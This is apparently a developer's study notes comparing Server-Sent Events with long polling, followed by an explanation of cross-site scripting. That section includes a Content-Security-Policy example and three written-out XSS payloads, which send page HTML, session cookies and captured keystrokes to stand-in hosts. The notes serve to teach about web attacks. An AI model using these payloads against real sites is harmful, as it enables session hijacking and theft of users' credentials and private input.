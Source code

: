 <details><summary>Advantages</summary></details>

<details><summary>Challenges</summary></details>

### Server-Sent Events vs Long Polling
Similarities Both SSE and Long Polling:

- enable near-real-time communication over HTTP/1.1,
- are one way (an HTTP/1.1 limitation)
- require a specific implementation (cannot be used with existing HTTP endpoints)
- keep an HTTP connection open

Differences

While a Long Polling request will finish as soon as new information arrives, acting like a regular, long-lasting request, an SSE request stays open until the client or the server decides to finish it, and the new information is simply written to the buffer.

### Cross Site Scripting
Cross-Site Scripting (XSS) is a security vulnerability typically found in web applications. It enables attackers to inject malicious scripts into content delivered to users, potentially leading to a range of harmful actions.
```
Content-Security-Policy: default-src 'self'; script-src 'self'; img-src 'self'
```

#### Stealing critical information
```
<img src="empty.gif" onerror="var mycookie= document.cookie; new Image.src=*https://example.com/fakepage.php?output=${document.body.innerHTML};" />
```
The payload sends the entire HTML content of the current page (document.body.innerHTML) to an external server (https://example.com/fakepage.php).

#### User session hijacking
```
?name=<img src="does-not-exist'" onerror="var img = document.createElement('img'); img.src='http://127.0.0.1:5501/cookie?data=${document.cookie}'; document.querySelector('body').appendChild(img);">
```
The injected code is an <img> tag with a src attribute pointing to a non-existent image (does-not-exist), triggering the onerror event.The payload sends the user's cookies to an external server controlled by the attacker (http://127.0.0.1:5501/cookie), potentially compromising user sessions.

#### Capturing keystrokes
```
var timeout;
var buffer = "";
document.querySelector("body").addEventListener("keypress", function(event) {
    if (event.which !== 0) {
        clearTimeout(timeout);
        buffer += String.fromCharCode(event.which);
        timeout = setTimeout(function() {
            var xhr = new XMLHttpRequest();
            var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
            xhr.open('GET', uri);
            xhr.send();
            buffer = "";
        }, 400);
    }
});

```
Privacy Violation: Captures all keystrokes, including sensitive information such as passwords and personal messages.
